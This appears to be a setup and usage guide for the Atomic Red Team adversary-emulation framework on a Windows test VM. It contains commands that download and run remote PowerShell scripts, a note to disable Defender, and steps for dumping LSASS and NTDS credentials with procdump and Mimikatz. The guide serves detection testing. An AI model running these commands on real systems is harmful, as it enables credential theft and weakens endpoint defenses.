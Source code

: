 # Installation

## Enable PowerShell script execution

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
```

## Install Execution framework

```powershell
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -InstallPath C:\AtomicRedTeam
```

## Import execution framework powershell profile

```powershell
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
```

## Install atomics

```powershell
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicsfolder.ps1' -UseBasicParsing);
Install-AtomicsFolder -InstallPath "C:\AtomicRedTeam" -RepoOwner "redcanaryco" -Branch "master"
```


## Test details

```powershell
Invoke-AtomicTest T1003 -ShowDetails
```

## Run test

```powershell
Invoke-AtomicTest T1053.005 -TestNumbers 1
```

## Run cleanup

```powershell
Invoke-AtomicTest T1053.005 -TestNumbers 1 -Cleanup
```

# OS Credential Dumping: LSASS Memory 

T1003.001 Atomic Test #2 

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2
Invoke-AtomicTest T1003.001 -TestNumbers 2 -CheckPrereqs
Invoke-AtomicTest T1003.001 -TestNumbers 2 -GetPrereqs
# Disable Defender Realtime-protection otherwise procdump will hang :/
Invoke-AtomicTest T1003.001 -TestNumbers 2
# Mimikatz check
sekurlsa::minidump C:\Windows\Temp\lsass_dump.dmp
sekurlsa::logonPasswords full
```

Note:

In case you encounter error `ERROR kuhl_m_sekurlsa_acquireLSA ; Key import` you must use older build of Mimikatz or update the VM and retry the dump. Mimikatz usually tries to keep everything working only on latest systems.
https://github.com/gentilkiwi/mimikatz/issues/248

# Windows Management Instrumentation

T1047 Atomic Test #6

```powershell
Invoke-AtomicTest T1047 -TestNumbers 6 -InputArgs @{ "node" = "192.168.40.129"; "user_name" = "IEUser";  "password" = "Passw0rd!"; "process_to_execute" = """cmd /c vssadmin.exe list shadows >> c:\log.txt""" }
```

If you don't have remote machine you can test similar technique locally using Atomic Test #5

```powershell
Invoke-AtomicTest T1047 -TestNumbers 5 -InputArgs @{ "process_to_execute" = """cmd /c vssadmin.exe list shadows >> c:\log.txt""" }
```

# OS Credential Dumping: NTDS

T1003.003 Atomic Test #1 and #2

```powershell
Invoke-AtomicTest T1003.003 -TestNumbers 1,2 -CheckPrereq
Invoke-AtomicTest T1003.003 -TestNumbers 1,2
```

# Remote Access Software

T1219 Atomic Test #2

```powershell
Invoke-AtomicTest T1219 -TestNumbers 2
```